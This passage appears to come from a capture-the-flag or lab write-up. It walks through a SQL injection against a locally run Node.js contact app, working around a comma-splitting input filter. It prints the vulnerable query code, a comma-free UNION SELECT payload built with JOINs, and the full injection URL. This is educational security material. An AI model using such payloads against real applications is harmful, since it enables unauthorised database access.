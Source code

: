 ```js
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
            ...
        });
    }else{
        res.redirect("/login");
    }
});
```

Since we have a local instance running, we can add `console.log(this.sql);` to the code above the `if (error) {` line so that it prints the query to the console and we can better understand how it's constructing the query.

For example, if we go to [http://localhost:1155/detail/1,2](http://localhost:1155/detail/1,2) this is the query that gets made:
```sql
SELECT * FROM uniquecontact WHERE id=1 OR id=2 OR id='0'
```

You can even see here that the 1 and 2 aren't properly escaped like the `'0'` is. The "OR id='0'" will always be added to the end. Not a big deal though, we can always just comment it out using `-- -`  at the end of the URL.

Now the challenge becomes getting around the fact that the input is comma-separated. This means we have to craft an injection that doesn't have any commas. We can use `UNION SELECT` to add things to the query, but we can't use commas, or else they'll get separated out.

Hacktricks has a section of a page on this: [Bypassing comma restrictions in SQL injections](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass).

From that link, we can see that we can use `JOIN` instead of commas to build our response.

A simple injection would look like this, since there are 7 columns in the `uniquecontact` table and the app is selecting all columns from it.
```sql
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```

If we go to this URL
```
http://localhost:1155/detail/0,0 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```
the query that gets executed is this
```sql
SELECT * FROM uniquecontact WHERE id=0 OR id=0 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- - OR id='0'
```
and we get back a page that looks like this

